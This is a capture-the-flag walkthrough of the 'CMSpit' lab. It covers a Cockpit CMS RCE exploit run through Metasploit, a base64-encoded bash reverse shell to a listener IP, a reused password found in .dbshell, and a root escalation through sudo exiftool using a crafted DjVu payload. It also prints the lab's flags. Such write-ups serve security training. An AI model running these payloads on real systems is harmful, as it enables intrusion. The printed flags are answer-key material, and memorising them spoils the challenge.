







## TL;DR

In this challenge, we start with `RCE` on the cockpit cms version, and moves to user `stux` using password we find inside `.dbshell`.

We escalate to `root` using `sudo` on `/usr/local/bin/exiftool`.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh and port `80` with apache http server.
```bash
PORT   STATE SERVICE REASON         VERSION                                                                                                                  
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)                                                            
| ssh-hostkey:                                                                                                                                               
|   2048 7f:25:f9:40:23:25:cd:29:8b:28:a9:d9:82:f5:49:e4 (RSA)                                                                                               
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD7acH8krj6oVh6s+R3VYnJ/Xc8o5b43RcrRwiMPKe7V8V/SLfeVeHtE06j0PnfF5bHbNjtLP8pMq2USPivt/LcsS+8e+F5yfFFAVawOWqtd9tnrXVQhmy
LZVb+wzmjKe+BaNWSnEazjIevMjD3bR8YBYKnf2BoaFKxGkJKPyleMT1GAkU+r47m2FsMa+l7p79VIYrZfss3NTlRq9k6pGsshiJnnzpWmT1KDjI90fGT6oIkALZdW/++qXi+px6+bWDMiW9NVv0eQmN9eTws
FNoWE3JDG7Aeq7hacqF7JyoMPegQwAAHI/ZD66f4zQzqQN6Ou6+sr7IMkC62rLMjKkXN                                                                                         
|   256 0a:f4:29:ed:55:43:19:e7:73:a7:09:79:30:a8:49:1b (ECDSA)                                                                                              
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEnbbSTSHNXi6AcEtMnOG+srCrE2U4lbRXkBxlQMk1damlhG+U0tmiObRCoasyBY2kvAdU/b7ZWoE0AmoYUldvk=
|   256 2f:43:ad:a3:d1:5b:64:86:33:07:5d:94:f9:dc:a4:01 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKYUS/4ObKPMEyPGlgqg6khm41SWn61X9kGbNvyBJh7e
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.18 ((Ubuntu))
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-favicon: Unknown favicon MD5: C9CD46C6A2F5C65855276A03FE703735
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title: Authenticate Please!
|_Requested resource was /auth/login?to=/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `cmspit.thm` to my `/etc/hosts`

### Exploit RCE on cockpit cms version to get shell as www-data

we start with `ffuf`:
```bash
┌──(agonen㉿kali)-[~/thm/CMSpit]
└─$ ffuf -u 'http://cmspit.thm/FUZZ' -w /usr/share/SecLists/Discovery/Web-Content/common.txt -fc 403  -fl 1

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://cmspit.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
 :: Filter           : Response lines: 1
________________________________________________

LICENSE                 [Status: 200, Size: 1133, Words: 153, Lines: 22, Duration: 169ms]
addons                  [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 151ms]
assets                  [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 160ms]
install                 [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 160ms]
lib                     [Status: 301, Size: 306, Words: 20, Lines: 10, Duration: 163ms]
modules                 [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 157ms]
package.json            [Status: 200, Size: 1169, Words: 230, Lines: 29, Duration: 164ms]
storage                 [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 164ms]
```

we can find `package.json`, let's go there



we can see this is `cockpit-next` with version `0.11.1`, I found `RCE` exploit, and found this `metasploit` module [https://www.rapid7.com/db/modules/exploit/multi/http/cockpit_cms_rce/](https://www.rapid7.com/db/modules/exploit/multi/http/cockpit_cms_rce/).

```bash
msf exploit(multi/http/cockpit_cms_rce) > set RHOSTS 10.66.146.137                                                                                                                           
RHOSTS => 10.66.146.137                                                                                                                                                                      
msf exploit(multi/http/cockpit_cms_rce) > set RPORT 80
RPORT => 80
msf exploit(multi/http/cockpit_cms_rce) > set LHOST tun0
LHOST => 192.168.164.248
msf exploit(multi/http/cockpit_cms_rce) > set LPORT 1337
LPORT => 1337
msf exploit(multi/http/cockpit_cms_rce) > run
[*] Started reverse TCP handler on 192.168.164.248:1337 
[*] Attempting Username Enumeration (CVE-2020-35846)
[+]   Found users: ["admin", "darkStar7471", "skidy", "ekoparty"]
[-] Exploit aborted due to failure: bad-config: 10.66.146.137:80 - User to exploit required
[*] Exploit completed, but no session was created.
msf exploit(multi/http/cockpit_cms_rce) > set USER admin
USER => admin
msf exploit(multi/http/cockpit_cms_rce) > run
```



and after pasting the payload from `penelope`, we got our reverse shell:
```bash
printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xNjQuMjQ4LzQ0NDMgMD4mMSkgJg==|base64 -d|bash
```



### Move to user stux using password found on .dbshell

I went to the folder of user `stux`, at `/home/stux`, and find the file `.dbshell`:
```bash
www-data@ubuntu:/home/stux$ cat .dbshell 
show
show dbs
use admin
use sudousersbak
show dbs
db.user.insert({name: "stux", name: "p4ssw0rdhack3d!123"})
show dbs
use sudousersbak
show collections
db
show
db.collectionName.find()
show collections
db.collection_name.find().pretty()
db.user.find().pretty()
db.user.insert({name: "stux"})
db.user.find().pretty()
db.flag.insert({name: "thm{c3d1af8da23926a30b0c8f4d6ab71bf851754568}"})
show collections
db.flag.find().pretty()
```

So, first we got the flag:
```bash
thm{c3d1af8da23926a30b0c8f4d6ab71bf851754568}
```

Next, we can use the user credentials to `su stux`:
```bash
{name: "stux", name: "p4ssw0rdhack3d!123"}
```



and grab the user flag:
```bash
thm{c5fc72c48759318c78ec88a786d7c213da05f0ce}
```

### Privilege escalate to root using sudo on /usr/local/bin/exiftool

we first check for sudo permissions:
```bash
stux@ubuntu:/tmp$ sudo -l
Matching Defaults entries for stux on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User stux may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/local/bin/exiftool
```

Okay, I googled and find we can sudo on `/usr/local/bin/exiftool` to privilege escalate.
Using this article [https://morgan-bin-bash.gitbook.io/linux-privilege-escalation/sudo-exiftool-privilege-escalation](https://morgan-bin-bash.gitbook.io/linux-privilege-escalation/sudo-exiftool-privilege-escalation).

We just need to execute this set of commands:
```bash
stux@ubuntu:/tmp$ cat > exploit
(metadata "\c${system('/bin/sh')};")
^C
stux@ubuntu:/tmp$ bzz exploit exploit.bzz
stux@ubuntu:/tmp$ djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=exploit.bzz
stux@ubuntu:/tmp$ sudo /usr/local/bin/exiftool exploit.djvu
```

and we get root shell.



Let's grab the root flag:

```bash
root@ubuntu:/root# cat root.txt 
thm{bf52a85b12cf49b9b6d77643771d74e90d4d5ada}
```



I just now found we need also web flag, so this is the web flag:
```bash
root@ubuntu:/var/www# grep -arn 'thm{' . 2>/dev/null
./html/cockpit/webflag.php:2:        $flag = "thm{f158bea70731c48b05657a02aaf955626d78e9fb}";
```